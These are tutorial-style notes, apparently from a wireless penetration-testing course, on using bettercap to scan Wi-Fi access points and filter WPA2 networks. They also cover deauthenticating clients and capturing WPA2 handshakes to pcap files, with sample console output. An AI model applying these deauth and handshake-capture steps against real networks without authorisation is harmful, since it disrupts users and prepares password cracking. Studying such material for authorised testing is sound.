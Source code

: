 # 13. Bettercap

Same as aircrack-ng. Provides interface flexibility.

Start bettercap

`sudo bettercap -iface wlan0` 

Got multiple tools:

- Bluetooth LE
- HID
- Ethernet
- Wi-Fi

Wifi module allows scanning, deauth, capture WPA handshakes and create AP by spoofing beacons.

Several useful commands: 

- recon: scan 802.11 spectrum for APs and capture WPA handshakes
- deauth: deauth clients from AP
- show: display discovered wireless stations
- ap: create rogue AP

To use each command, have to prepend ‘wifi’ to each of the above command to use. 

i.e. `wifi.recon` 

1. Run `sudo bettercap -iface wlan0` to start
2. Once running, can discover APs using `wifi.recon on`
3. Can switch channel scanning to specific ones using `wifi.recon.channel 6,11` will only scan channel 6 and 11
4. Supports tab-completion on incomplete commands
5. Can set `ticker` comamnds to periodically execute multiple commands. Useful to occasionally run `wifi.show` command to see the APs scanned
    
    `set ticker.commands "clear; wifi.show"`
    
6. Then run the ticker using `ticker on` 
7. Can **sort** in `wifi.show`
    
    `set wifi.show.sort clients desc` - sort clients in descending order
    
8. Can filter to only display APs with WPA2 only
    
    `set wifi.show.filter “WPA2”` 
    
9. Once we have a list of WPA2 APs, can take a look at clients connected to a specific AP using:
    
    `wifi.recon c6:2d:56:2a:53:f8` 
    
    then running `wifi.show` 
    

![Untitled](Untitled%2011.png)

1. To clear filter, use 
    
    `set wifi.show.filter ""`
    
2. To set a filter to see the signal strength use:
    
    `set wifi.rssi.min -49`
    
    then run `wifi.show`
    
3. To exit, run `wifi.recon.clear` or `wifi.clear` or `wifi.recon.off` to stop recon
4. Deauth clients using `wifi.deauth c6:2d:56:2a:53:f8` 
    1. providing an AP to deauth will send deauth packets to all clients connected to the AP
    2. providing a client to deauth will only send deauth packets to the client
5.  Can check if handshake is captured using:
    
    `wifi.client.handshake` 
    
6. Handshakes can be saved to a file using `wifi.handshake.file` 

```bash
 wlan1  » wifi.recon off

 wlan1  » get wifi.handshakes.file 

 OUTPUT:	wifi.handshakes.file: '~/bettercap-wifi-handshakes.pcap'

 wlan0  » set wifi.handshakes.file "/home/kali/handshakes/"

 wlan0  » set wifi.handshakes.aggregate false

 wlan0  » wifi.recon on

 wlan0  » wifi.deauth c6:2d:56:2a:53:f8
 ...
 wlan0  » [16:28:12] [wifi.client.handshake] captured 78:fd:94:b5:ec:88 -> Corporate (c6:2d:56:2a:53:f8) WPA2 handshake (full) to /home/kali/handshakes/Corporate_405d82dcb210.pcap
```

Note: *If MAC address is not discovered, bettercap will not to run deauth command* 

1. Can exclude the mac addresses to skip by specifying 
    
    `set wifi.deauth.skip ac:22:0b:28:fd:22`